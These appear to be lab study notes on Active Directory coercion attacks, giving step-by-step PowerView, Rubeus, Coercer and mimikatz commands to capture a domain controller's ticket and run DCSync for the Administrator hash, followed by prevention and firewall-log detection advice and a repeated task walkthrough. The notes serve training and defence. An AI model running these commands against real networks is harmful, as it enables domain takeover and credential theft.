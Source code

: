 # Coercing Attacks & Unconstrained Delegation

## Description

* Coercing attack is for privilage escalation - from any user to Domain Administrator
* PrinterBug is a coercing attack example, and there are more.
* These attacks exploit **vulnerable RPC functions** to make a domain controller (DC) authenticate to another machine.
* The attack starts by forcing a DC to connect to an attacker-controlled system.

#### 🛠️ **Tools**

* **PrinterBug**: Initial coercing method using the Print Spooler service.
* **Coercer Tool**: Automates coercion using all known vulnerable RPC functions.

#### ⚠️ **Vulnerable Targets**

* Environments with **default AD configurations**.
* Systems with **SMB Signing disabled** or **unrestricted delegation enabled**.

🔄 **Follow-Up Attacks After Coercion:**

* DCSync via NTLM Relay
* Unconstrained Delegation (UD)
* AD CS Certificate Abuse
* Resource-Based Constrained Delegation (RBCD)

***

## Attack

In the attack example we will abuse the second follow up.\
Assuming that an attacker has gained administrative rights on a server configured for `Unconstrained Delegation`.

We will use this server to capture the TGT, while `Coercer` will be executed from the Kali machine.

<mark style="color:yellow;">1.</mark>\
To identify systems configured for `Unconstrained Delegation`, we can use the `Get-NetComputer` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) along with the `-Unconstrained` switch

#### Identify systems configured for unconstrained delegation

```powershell-session
PS C:\Users\bob\Downloads> Get-NetComputer -Unconstrained | select samaccountname

samaccountname
--------------
DC1$
SERVER01$
WS001$
DC2$
```

`WS001` and `SERVER01` are trusted for Unconstrained delegation (Domain Controllers are trusted by default). So either WS001 or Server01 would be a target for an adversary. In our scenario, we have already compromised WS001 and 'Bob', who has administrative rights on this host.

<mark style="color:yellow;">2.</mark>\
We will start `Rubeus` in an administrative prompt to monitor for new logons and extract TGTs

#### Monitor for logons

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1
```

<mark style="color:yellow;">3.</mark>\
Next, we need to know the IP address of WS001, which we can be obtain by running `ipconfig`.

<mark style="color:yellow;">4.</mark>\
Once known, we will switch to the Kali machine to execute `Coercer` towards DC1, while we force it to connect to WS001 if coercing is successful

#### Force connection from DC1 to WS001 from our machine

```shell-session
batamladen@htb[/htb]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

Now, if we switch to WS001 and look at the continuous output that `Rubeus` provide, there should be a TGT for DC1 available

<figure><img src="../../../.gitbook/assets/Pasted image 20250416113650.png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">5.</mark>\
We can use this TGT for authentication within the domain, becoming the Domain Controller. From there onwards, DCSync is an obvious attack (among others).

One way of using the abovementioned TGT is through Rubeus, as follows.

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
```

Then, a DCSync attack can be executed through mimikatz, essentially by replicating what we did in the DCSync section.

```powershell-session
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```

***

## Prevention

Windows does not offer granular visibility and control over RPC calls to allow discovering what is being used and block certain functions. Therefore, an out-of-the-box solution for preventing this attack does not exist currently. However, there are two different general approaches to preventing coercing attacks:

1. Implementing a third-party RPC firewall, such as the one from [zero networks](https://github.com/zeronetworks/rpcfirewall), and using it to block dangerous RPC functions.
2. Block Domain Controllers and other core infrastructure servers from connecting to outbound ports `139` and `445`, `except` to machines that are required for AD (as well for business operations).

***

## Detection

It is recomended to not install third-party software in the AD. Thats why our detection option is firewall logs.

A successful coercing attack with Coercer will result in the following host firewall log, where the machine at `.128` is the attacker machine and the `.200` is the Domain Controller:

<figure><img src="../../../.gitbook/assets/Pasted image 20250416114237.png" alt=""><figcaption></figcaption></figure>

We can see plenty of incoming connections to the DC, followed up by outbound connections from the DC to the attacker machine; this process repeats a few times as Coercer goes through several different functions. All of the outbound traffic is destined for port 445.

If we go forward and block outbound traffic to port 445, then we will observe the following behavior:

<figure><img src="../../../.gitbook/assets/Pasted image 20250416114357.png" alt=""><figcaption></figcaption></figure>

&#x20;Sometimes, when port 445 is blocked, the machine will attempt to connect to port 139 instead, so blocking both ports `139` and `445` is recommended.\
&#x20;The above can also be used for detection, as any unexpected dropped traffic to ports `139` or `445` is suspicious.

***

## Tasks

Rdp to the machine provided in the task\
RDP to WS001 from there

**On the WS001:**

Open cmd as admin

Activate rubeus to monitor

```
.\Rubeus.exe monitor /interval:1
```

Go back on the kali

**On the kali machine:**

```
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

Now when you return to the WS001 the monitoring rubeus should caught the TGT.

<figure><img src="../../../.gitbook/assets/Pasted image 20250416121202.png" alt=""><figcaption></figcaption></figure>

**back on the WS001:**

```powershell-session
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
```

Open mimikatz (Downloads/mimikatz\_trunk/x64)

```
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```
